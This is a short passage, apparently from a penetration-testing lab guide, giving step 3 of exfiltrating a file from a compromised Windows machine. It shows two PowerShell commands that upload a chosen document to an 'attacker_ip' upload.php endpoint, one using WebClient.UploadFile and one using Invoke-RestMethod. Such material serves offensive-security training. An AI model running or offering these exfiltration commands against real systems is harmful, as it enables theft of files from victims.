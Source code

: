 3. Move to compromised machine's cmd prompt to upload desired doc:
```powershell
C:\Users\Offsec> powershell.exe (New-Object System.Net.WebClient).UploadFile('http://attacker_ip/upload.php', 'full_path/:important.docx')


OR

C:\Users\Offsec> powershell.exe Invoke-RestMethod -Uri http://attakcer_ip/upload.php -Method Post -InFile $uploadpathfile
```



